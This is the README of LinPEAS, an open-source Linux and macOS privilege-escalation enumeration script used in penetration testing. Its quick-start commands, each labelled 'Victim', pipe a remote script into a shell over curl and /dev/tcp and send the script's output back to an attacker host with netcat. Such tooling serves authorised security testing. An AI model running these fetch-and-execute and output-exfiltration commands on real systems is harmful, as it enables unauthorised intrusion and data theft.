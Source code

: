 # LinPEAS - Linux Privilege Escalation Awesome Script

![](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/raw/master/linPEAS/images/linpeas.png)

**LinPEAS is a script that search for possible paths to escalate privileges on Linux/Unix\*/MacOS hosts. The checks are explained on [book.hacktricks.xyz](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)**

Check the **Local Linux Privilege Escalation checklist** from **[book.hacktricks.xyz](https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist)**.

[![asciicast](https://asciinema.org/a/250532.png)](https://asciinema.org/a/309566)

## MacPEAS

Just execute `linpeas.sh` in a MacOS system and the **MacPEAS version will be automatically executed**

## Quick Start
Find the **latest versions of all the scripts and binaries in [the releases page](https://github.com/carlospolop/PEASS-ng/releases/latest)**.

```bash
# From github
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

```bash
# Local network
sudo python -m http.server 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim

# Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim

# Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out #Host
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim
```

```bash
# Output to file
./linpeas.sh -a > /dev/shm/linpeas.txt #Victim
less -r /dev/shm/linpeas.txt #Read with colors
```

```bash
# Use a linpeas binary
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas_linux_amd64
chmod +x linpeas_linux_amd64
./linpeas_linux_amd64
```
